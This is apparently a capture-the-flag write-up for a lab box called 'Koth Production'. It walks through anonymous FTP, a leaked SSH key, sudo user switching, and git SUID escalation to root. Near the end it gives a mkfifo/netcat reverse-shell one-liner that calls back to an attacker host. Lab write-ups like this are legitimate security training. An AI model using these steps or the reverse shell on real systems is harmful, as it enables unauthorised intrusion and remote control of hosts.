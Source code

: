 # Koth Production

---------------------
## IP: `10.10.224.175`

---------------------
##### Let's search for Open Ports via Nmap: <br />

`nmap -sC -sV -oN nmap/initial 10.10.224.175`<br />

```
21
22
139
445
9001
9002
```

![image](images/nmap.png)

----------------------
##### We can see `anonymous` login enabled for `ftp`: <br />

> Let's login then (:<br />

![image](images/ftp.png)


We get id-rsa of a user, if we the public key too, and cat that out we can see the id_rsa was of user `ashu`<br />

-----------------------
##### Login via user `Ashu`:<br />

First you need to give the id_rsa read,write permissions using<br />

`chmod 600 id_rsa`

Let's login-<br />

`ssh -i id_rsa ashu@10.10.224.175`

-------------------------
##### Getting root via user `ashu`:<br />

>Let's check for sudo abilities for ashu<br />

`sudo -l`<br />

![image](images/ashu.png)


We see, we can just directly switch to user `skidy` with sudo-<br />

`sudo su skidy`<br />

![image](images/skidy.png)

YAY!<br />

Now, before priv-esc, if we try to look into the home directory of user `skidy`, we will find a<br /> directory named `homework`, and in there there's a python script `server1.py`, if you cat that<br />
you'll find the password you need to enter to access the backdoor on port `9001`<br />

![image](images/python.png)

Let's check for `suid` bits after getting user `skidy`:<br />

`find / -perm -4000 2>/dev/null`<br />

![image](images/suid.png)

```
We see /usr/bin/git there, let's check its [GTFO-BINS](https://gtfobins.github.io/gtfobins/git/)
```

![image](images/gtfo.png)

> After doing-<br />

`sudo git -p help config`<br />

we can type `!/bin/bash` to get root<br />

![image](images/git.png)

------------------------
##### Getting Root via port `9001, 9002`:<br />

```
nc 10.10.224.175 9001
```

> It is a backdoor for user ashu...

put the pass we found in the python script of user skidy `y......!`<br />

![image](images/9001.png)

> On port 9001, do-<br />

`echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.66 8888 >/tmp/f" > /tmp/a; chmod +x /tmp/a`<br />

![image](echo.png)

Now, let's use port `9002` to get a rev-shell on the port we put above-<br />

```
nc 10.10.224.175 9002
```

to get a rev-shell on port `8888`, start a netcat listener on your machine<br />

`nc -lnvp 8888`<br />

NOW on port 9002, run the command-<br />

```
/tmp/./a
```

> Yep, we got our shell as root (:<br />

![image](images/netcat.png)

-------------------
Thanks For Reading <3